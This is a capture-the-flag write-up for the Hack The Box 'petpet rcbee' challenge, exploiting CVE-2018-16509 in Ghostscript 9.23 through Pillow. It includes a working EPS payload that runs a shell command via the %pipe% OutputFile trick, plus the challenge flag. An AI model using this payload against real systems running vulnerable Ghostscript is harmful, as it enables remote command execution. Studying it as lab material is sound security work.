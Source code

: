 # [petpet rcbee](https://app.hackthebox.com/challenges/petpet-rcbee)

## CHALLENGE DESCRIPTION

Bees are comfy 🍯
bees are great 🌟🌟🌟
this is a petpet generator 👋
let's join forces and save the bees today! 🐝

## Characteristics

- python, flask
- Pillow, ghostscript-9.23
- CVE-2018-16509

## CVE-2018-16509

dockerfile

```bash
# Install Python dependencies
RUN pip install flask Pillow

# Install Pillow component
RUN curl -L -O https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs923/ghostscript-9.23-linux-x86_64.tgz \
    && tar -xzf ghostscript-9.23-linux-x86_64.tgz \
    && mv ghostscript-9.23-linux-x86_64/gs-923-linux-x86_64 /usr/local/bin/gs && rm -rf /tmp/ghost*
```

line 46 `util.py`:

```py
bee = Image.open(tmp_path).convert('RGBA')
```

exploit: upload file, poc.jpg:

```jpg
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/pwn.txt) currentdevice putdeviceprops
```

request:

```http
GET /static/petpets/pwn.txt HTTP/1.1

HTTP/1.0 200 OK

HTB{c0mfy_bzzzzz_rcb33s_v1b3s}
```
